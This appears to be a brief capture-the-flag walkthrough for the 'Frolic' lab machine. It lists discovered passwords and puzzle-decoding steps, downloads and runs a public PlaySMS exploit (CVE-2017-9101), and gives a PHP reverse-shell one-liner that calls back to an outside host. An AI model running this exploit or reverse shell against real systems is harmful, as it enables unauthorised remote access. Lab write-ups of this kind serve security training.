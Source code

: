 # Frolic

IP: `10.10.10.111`

## Findings

- port 9999
  - `/backup/password.txt` login password of `imnothuman`
  - `/admin` login password of `superduperlooperpassword_lol`
  - logging in grants a ook language page, decoding gives a path: `/asdiSIAJJ0QWE9JAS`
  - The contents of that path look like base64 encoded
  - We extract that into a text file and remove spaces
  - Now use `base64 -d  hash` to decode it and redirect output to a file
  - When running `file` on the newly decoded file, it appears as a zip
  - Unzipping the file with password `password` reveals another base64 like file in hex
  - Convert hex to base64 with `xxd`
  - Code is brain**** and decoding gives `idkwhatispass`
  - For the `/playsms` directory, the username `admin`/`idkwhatispass` works

```sh
wget https://github.com/jasperla/CVE-2017-9101/raw/master/playsmshell.py

python3 playsmshell.py --username admin --password idkwhatispass --url http://10.10.10.111:9999/playsms --interactive
```

Get a better shell back with:

```sh
php -r '$sock=fsockopen("10.10.14.21",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Priv esc

`/var/www/html/playsms/plugin/themes/ubuntu/config.php` writable, used by playsms
